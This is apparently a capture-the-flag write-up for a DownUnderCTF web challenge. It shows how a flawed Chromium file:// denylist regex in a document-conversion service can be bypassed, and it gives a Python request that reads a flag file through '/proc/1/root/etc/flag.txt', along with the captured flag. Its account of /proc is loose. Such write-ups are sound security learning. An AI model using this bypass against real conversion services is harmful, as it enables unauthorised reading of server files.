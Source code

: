 > I'm not solving this while the CTF is running.

So, in the `8.0.3` by comparing the version to main/latest version there is some misconfiguration for the denylist
![alt text](image.png)

`CHROMIUM_DENY_LIST="^file:///[^tmp].*"`

The regex will deny all the files except the files that start with `t`, `m`, or `p`

So, in order to bypass this we need to get the `flag.txt` from `/proc` directory

By running the docker shell we can search with the following command

```bash
ls /proc/*/* | grep flag.txt
```

The output will be

```bash
/proc/1/root/etc/flag.txt
/proc/50/root/etc/flag.txt
/proc/7/root/etc/flag.txt
/proc/74/root/etc/flag.txt
/proc/75/root/etc/flag.txt
/proc/self/root/etc/flag.txt
/proc/thread-self/root/etc/flag.txt
```

Explaination of why the file is in `/proc` directory

> `/proc` directory is a virtual filesystem that contains information about processes and system resources. It is a pseudo-filesystem that provides an interface to kernel data structures. It is commonly used for debugging and performance monitoring. The files in the `/proc` directory are not real files on disk, but rather representations of kernel data structures. The `flag.txt` file in the `/proc` directory is a symbolic link to the actual file on disk. This is why the file is accessible through the `/proc` directory even though it is not stored there directly.

So, we can request the file using the following URL

```py
url = "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/url"

# multipart/form-data
form_data = {
    "url": (None, "file:///proc/1/root/etc/flag.txt")
}

# Make the POST request
response = requests.post(url, files=form_data)
```

The open-source vuln is not always dependent on CVE or other sources, sometimes it is just a misconfiguration.

> DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}
